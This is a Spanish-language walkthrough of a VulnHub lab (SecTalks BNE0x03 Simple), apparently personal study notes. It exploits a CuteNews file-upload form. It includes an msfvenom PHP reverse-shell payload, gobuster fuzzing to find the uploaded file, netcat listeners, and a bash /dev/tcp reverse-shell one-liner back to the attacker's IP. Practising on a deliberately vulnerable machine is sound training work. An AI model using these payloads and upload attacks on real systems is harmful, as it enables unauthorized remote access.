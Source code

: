 Maquinas a utilizar **Kali Linux y SecTalks: BNE0x03 - Simple (**[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141))

  

Vamos a ver como podemos **crear un Payload malicioso y aprovechar una vulnerabilidad de subir archivos dentro de una pagina web** para poder **tener acceso remoto** en la maquina.

```Bash
10.0.3.sudo arp-scan -I eth0 --localnet
```

```Bash
ping -c 1 10.0.3.13
```

![[Imagenes/image 31.png|image 31.png]]

  

```Bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.13
```

![[Imagenes/image 1 20.png|image 1 20.png]]

  

Ponemos la IP en el navegador web

![[Imagenes/image 2 19.png|image 2 19.png]]

Vemos un panel de inicio con la opción de registrarnos. Vamos a registrarnos.

![[Imagenes/image 3 18.png|image 3 18.png]]

![[Imagenes/image 4 17.png|image 4 17.png]]

**NOTA:** Cuando veamos un nombre o una marca lo investigamos en Metasploit con la opción “search: cutenews”.

  

Pulsamos en Personal options.

![[Imagenes/image 5 16.png|image 5 16.png]]

Vemos que tenemos una opción para subir archivos. Entonces necesitaremos dos cosas el archivo malicioso y la ubicación donde se almacenen los archivos subidos.

- Vamos a generar el archivo malicioso.
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php 
    ```
    
    ![[Imagenes/image 6 15.png|image 6 15.png]]
    
    - `**p php/reverse_php**`: Especifica el tipo de payload. En este caso, se genera un payload de PHP que establece una conexión inversa (reverse shell) desde el objetivo hacia el atacante.
    - `**LHOST=10.0.3.4**`: Define la dirección IP del atacante (Local Host) que recibirá la conexión inversa.
    - `**LPORT=443**`: Especifica el puerto en el que el atacante escuchará la conexión. El puerto 443 es comúnmente utilizado para tráfico HTTPS, lo que puede ayudar a evadir detección.
    - `**f raw**`: Indica el formato del payload. Aquí se genera en formato "raw" (sin codificación adicional).
    - `**> pwned.php**`: Redirige la salida del payload generado a un archivo llamado `pwned.php`.
    
      
    
- Subimos el archivo malicioso a través del formulario
    
    ![[Imagenes/image 7 13.png|image 7 13.png]]
    
- Vamos a hacer **Fuzzing Web** para saber donde se a subido el archivo. utilizaremos **la herrmienta Gobuster.**
    
    ```Bash
    gobuster dir -u http://10.0.3.13/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![[Imagenes/image 8 12.png|image 8 12.png]]
    
      
    
- En el navegador web.
    
    ![[Imagenes/image 9 11.png|image 9 11.png]]
    
    Vemos que hay se encuentra el archivo malicioso que he subido anteriormente.
    
      
    
- Utilizamos **netcat** para ponernos a la escucha en el **puerto 443** que es el que hemos utilizado para nuestro archivo malicioso.
    
    ```Bash
    nc -nlvp 443
    ```
    
    ![[Imagenes/image 10 11.png|image 10 11.png]]
    

  

  

**NOTA:** El Payload en msfvenom funciona mal. Después de un rato fácilmente vamos a perder la conexión para evitar esto y tener una conexión mas estable aremos lo siguiente.

- Abrimos un nuevo terminal y nos ponemos a la escucha con netcat en un puerto diferente por ejempló 4444.
    
    ```Bash
    nc -nlvp 4444
    ```
    
- En la pagina web [Online - Reverse Shell Generator](https://www.revshells.com/) ponemos la IP de nuestra Kali y puerto y copiamos el payload.
    
    ![[Imagenes/image 11 8.png|image 11 8.png]]
    

  

- Abrimos otra terminal y lanzamos otro netcat escuchando el puerto 4444
    
    ![[Imagenes/image 12 8.png|image 12 8.png]]
    

  

- Ejecutamos nuestro archivo malicioso
    
    ![[Imagenes/image 13 8.png|image 13 8.png]]
    
    Miramos si funciona por ejemplo mirando que usuario soy.
    
    `whoami`
    
    Y ejecutamos el payload que habíamos copiado
    
    `bash -c "``**sh**` `-i >& /dev/tcp/``**10.0.3.4**``/``**4444**` `0>&1"`
    
    ![[Imagenes/image 14 6.png|image 14 6.png]]
    
      
    
    Vemos como **se abre una nueva conexión mucho mas estable** en la escucha del puerto 4444. Podríamos cerrar la terminal en la que escuchábamos por el puerto 443 sin ningún problema.
    
    ![[Imagenes/image 15 5.png|image 15 5.png]]